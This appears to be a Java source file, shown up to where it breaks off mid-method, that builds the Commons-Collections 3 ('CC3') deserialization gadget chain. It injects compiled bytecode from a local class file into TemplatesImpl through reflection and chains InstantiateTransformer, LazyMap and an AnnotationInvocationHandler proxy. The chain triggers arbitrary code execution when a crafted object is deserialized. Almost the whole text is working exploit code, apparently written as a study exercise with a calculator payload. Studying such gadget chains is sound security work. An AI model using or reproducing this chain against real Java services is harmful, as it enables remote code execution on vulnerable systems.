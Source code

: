 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        TestCC3();
//        unserialize("abc.ser.bin");
    }

    public static void TestCC3() throws Exception {
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

//        instantiateTransformer.transform(TrAXFilter.class);
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                TrAXFilter.class
                        ),
                        instantiateTransformer,
                });
//        chainedTransformer.transform(new Object());

        HashMap<String,String> map = new HashMap<>();
        map.put("entrySet1","aaa");

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler h1 = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);

        Map proxymap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), h1);

```